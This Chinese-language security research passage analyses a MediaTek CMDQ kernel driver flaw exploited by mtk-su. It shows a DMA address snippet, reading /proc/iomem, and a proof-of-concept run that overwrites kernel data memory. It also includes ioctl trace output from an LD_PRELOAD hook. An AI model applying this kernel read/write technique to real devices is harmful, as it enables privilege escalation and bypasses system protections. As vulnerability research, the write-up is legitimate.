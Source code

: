 ```
*(uint32_t*)((uint32_t)command-&gt;readAddress.dmaAddresses) = dma_address;
command-&gt;readAddress.count = offset;
```

该结果将写入到readAddress.values中，该地址必须事先分配。

### <a class="reference-link" name="%E7%AE%80%E5%8D%95%E7%9A%84PoC"></a>简单的PoC

要确定内核使用的物理地址，可以使用设备的/proc/iomem（需要root权限）。

```
# cat /proc/iomem
[...]
40000000-545fffff : System RAM
  40008000-415fffff : Kernel code
  41800000-41d669b3 : Kernel data
[...]
```

这些地址是静态配置的，在每次引导启动时都会保持不变。<br>
PoC由两个程序组成：<br>
1、一个允许对基础内存进行读写的C程序；<br>
2、一个Shell脚本，该脚本调用上一个程序，在内核数据存储器中搜索“Linux”字符串的第一个匹配项，然后将其替换为“minix”。

```
$ uname -a
Linux localhost 4.9.77+ #1 SMP PREEMPT Mon Jan 21 18:32:19 WIB 2019 armv7l
$ sh poc.sh
[+] Found Linux string at 0x4180bc00
[+] Found Linux string at 0x4180bea0
[+] Write the patched value
$ uname -a
minix  4.9.77+ #1 SMP PREEMPT Mon Jan 21 18:32:19 WIB 2019 armv7l
```

这样的PoC非常有用，我们现在已经能够读写内核数据存储器。并且，我们已经可以对任何其他系统内存区域执行相同的操作，从而绕过系统中已有的权限和保护。因此，除了进行简单的尝试之外，我们还可以利用这个漏洞来修改系统内存中的任何地方，例如内核代码和数据，以实现特权提升。<br>
二进制mtk-su使用该漏洞，在内核内存中执行了很多有趣的工作，从而实现了以root身份执行命令。在本文中，我们将不会提供有关如何使用mtk-su这些内核漏洞利用方式的更多详细信息。但是，作为安全研究人员，可以首先尝试分析我们编写的小型追踪库。启动mtk-su时必须预先加载它，并且它将跟踪CMDQ驱动程序的某些IOCTL，例如发送给驱动程序的命令。

```
$ mkdir mtk-su
$ LD_PRELOAD=./syscall-hook.so ./mtk-su
alloc failed
alloc count=400 startPA=0x5a733000
uncatched ioctl 40e07803
exec command (num 0) ( blockSize=8040, readAddress.count=0 ) dumped into cmd-0
exec command (num 1) ( blockSize=3e0, readAddress.count=1e ) dumped into cmd-1
[...]
$ cat mtk-su/cmd-1
WFE to_wait=1, wait=1, to_update=1, update=0, event=1da
MOVE 40928000 into reg 17
READ  address reg 17, data reg b
[...]
```
